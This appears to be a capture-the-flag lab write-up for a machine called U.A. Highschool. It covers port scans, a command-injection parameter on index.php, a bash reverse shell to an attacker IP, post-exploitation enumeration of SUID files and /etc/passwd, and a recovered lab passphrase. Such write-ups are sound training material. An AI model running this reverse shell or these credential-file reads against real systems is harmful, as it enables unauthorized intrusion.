 # U.A. Highschool CTF

## Recon
1. nmap -sS -oN nmap_initial.txt gives us open ssh and http ports. Lets get detail on the http port 
2. nmap -A -p80 -oN nmap_http.txt school.thm we have an apache web server running lets go ahead and look at the website
3. The webiste has a few forms but non seem functional there doesn't seem to be anything interesting in the sorce code.
4. gobuster dir -u http://school.thm -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 50 reveals only /assets and /server-status
5. Wild goose chase with Japanese word lists
6. the hint says be suspicous of any unused files lets look for files; we find an index.php
7. we have found LFI on index.php

## LFI Exploration

1. http://school.thm/assets/index.php?cmd=whoami gives us d3d3LWRhdGEK
2. base 64 decode shows user is www-data
3. http://school.thm/assets/index.php?cmd=cat /etc/apache2/sites-enabled/000-default.conf reveals some info see apache_conf.txt
4. we are able to reverse shell http://school.thm/assets/index.php?cmd=bash -i >& /dev/tcp/<attack ip>/4444 0>&1

## Reverse Shell

1. stabalize with: python3 -c 'import pty; pty.spawn("/bin/bash")'
2. make terminal responsive export TERM=xterm
3. improve input handling: stty raw -echo; fg
4. www-data@myheroacademia:/var/www/html/assets$ whoami && hostname
www-data
myheroacademia
5. www-data@myheroacademia:/var/www/html/assets$ uname -a
Linux myheroacademia 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
6. www-data@myheroacademia:/var/www/html/assets$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
7. www-data@myheroacademia:/var/www/html/assets$ df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  4.7G  4.7G  51% /
udev                               436M     0  436M   0% /dev
tmpfs                              481M     0  481M   0% /dev/shm
tmpfs                               97M  944K   96M   1% /run
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              481M     0  481M   0% /sys/fs/cgroup
/dev/loop0                          64M   64M     0 100% /snap/core20/1828
/dev/loop1                          50M   50M     0 100% /snap/snapd/18357
/dev/loop2                          92M   92M     0 100% /snap/lxd/24061
/dev/xvda2                         1.7G  108M  1.5G   7% /boot
8. /usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/at
/usr/bin/su
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
9. www-data@myheroacademia:/var/www/html/assets$ find / -writable -type f 2>/dev/null
cat /etc/passwd | grep bash/var/www/html/assets/images/yuei.jpg
/var/www/html/assets/images/oneforall.jpg
/var/www/html/assets/index.php
/var/www/html/index.html
/var/www/html/about.html
/var/www/html/admissions.html
/var/www/html/contact.html
/var/www/html/courses.html
/var/www/Hidden_Content/passphrase.txt
10. www-data@myheroacademia:/var/www/html/assets$ cat /var/www/Hidden_Content/passphrase.txt
QWxsbWlnaHRGb3JFdmVyISEhCg== : AllmightForEver!!!
11. www-data@myheroacademia:/var/www/html/assets$ cat /etc/passwd | cut -d: -f1
root
daemon
bin
sys
sync
games
man
lp
mail
news
uucp
proxy
www-data
backup
list
irc
gnats
nobody
systemd-network
systemd-resolve
systemd-timesync
messagebus
syslog
_apt
tss
uuidd
tcpdump
landscape
pollinate
fwupd-refresh
usbmux
sshd
systemd-coredump
deku

lxd

11. su - deku fail
12. ssh deku@school.thm fail
13. www-data@myheroacademia:/var/www/html/assets$ cat /etc/shadow | grep deku
cat: /etc/shadow: Permission denied
14. www-data@myheroacademia:/var/www/html/assets$ netstat -tulnp
ps aux | grep deku(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.5.150:68          0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:55490           0.0.0.0:*                           -                   
www-data@myheroacademia:/var/www/html/assets$ 
15. www-data@myheroacademia:/var/www/html/assets$ ls -la /home/deku/
total 36
drwxr-xr-x 5 deku deku 4096 Jul 10  2023 .
drwxr-xr-x 3 root root 4096 Jul  9  2023 ..
lrwxrwxrwx 1 root root    9 Jul  9  2023 .bash_history -> /dev/null
-rw-r--r-- 1 deku deku  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 deku deku 3771 Feb 25  2020 .bashrc
drwx------ 2 deku deku 4096 Jul  9  2023 .cache
drwxrwxr-x 3 deku deku 4096 Jul  9  2023 .local
-rw-r--r-- 1 deku deku  807 Feb 25  2020 .profile
drwx------ 2 deku deku 4096 Jul  9  2023 .ssh
-rw-r--r-- 1 deku deku    0 Jul  9  2023 .sudo_as_admin_successful
-r-------- 1 deku deku   33 Jul 10  2023 user.txt
16 we found the flag but:
www-data@myheroacademia:/var/www/html/assets$ cat /home/deku/user.txt
cat: /home/deku/user.txt: Permission denied
17. ww-data@myheroacademia:/var/www/html/assets$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/at
/usr/bin/su
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
18. looking back at the hint unused files : 
www-data@myheroacademia:/var/www/html/assets$ ls -la images/
total 336
drwxrwxr-x 2 www-data www-data   4096 Jul  9  2023 .
drwxrwxr-x 3 www-data www-data   4096 Jan 25  2024 ..
-rw-rw-r-- 1 www-data www-data  98264 Jul  9  2023 oneforall.jpg
-rw-rw-r-- 1 www-data www-data 237170 Jul  9  2023 yuei.jpg
oneforall.jpg isn't used on the site
